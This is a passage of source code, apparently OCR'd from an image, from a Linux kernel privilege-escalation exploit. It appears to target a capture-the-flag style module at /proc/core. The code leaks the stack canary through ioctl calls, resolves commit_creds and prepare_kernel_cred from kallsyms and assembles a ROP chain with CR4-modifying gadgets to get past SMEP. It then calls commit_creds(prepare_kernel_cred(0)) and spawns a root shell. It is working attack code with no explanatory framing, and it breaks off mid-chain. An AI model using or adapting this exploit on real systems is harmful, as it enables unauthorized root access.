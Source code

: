 ```assembly
   }

   if(!commit_creds & !prepare_kernel_cred){
      puts("[*]read kallsyms error!");
      exit(0);
   }
}


void spawn_shell(){
   if(!getuid()){
      system("/bin/sh");
   }
   else{
      puts("[*]spawn shell error!");
   }
   exit(0);
}


void get_root(){
    char* (*pkc)(int) = prepare_kernel_cred;
    void (*cc)(char*) = commit_creds;
    (*cc)((*pkc)(0));
}


int main(){
    save_status(); 

    int fd = open("/proc/core", 2);
    if(fd < 0){
        puts("[*]open /proc/core error!");
    }
   
    //read /tmp/kallsyms to get commit_creds and prepare_kernel_cred addr
    find_symbols();
    ssize_t offset = vmlinux_base - raw_vmlinux_base;
   
    //v5 [rbp-0x50]
    //leak canary
    ioctl(fd, 0x6677889C, 0x40);

    char buf[0x40] = {0};
    ioctl(fd, 0x6677889B, buf);
    size_t canary = ((size_t*)buf)[0];
    printf("[*]canary: %p\n", canary);


    size_t rop[0x1000] = {0};   
    int i;
    
    //rbp-0x50
    for(i=0; i<10; i++){ 
        rop[i] = canary;
    }


    #define POP_RDI_RET 0xffffffff81000b2f
    #define MOV_RAX_CR4_ADD_RSP_8_POP_RBP_RET 0xffffffff8106669c
    #define AND_RAX_RDI_RET 0xffffffff8102b45b
    #define MOV_CR4_RAX_PUSH_RCX_POPFQ_RET 0xffffffff81002515

```
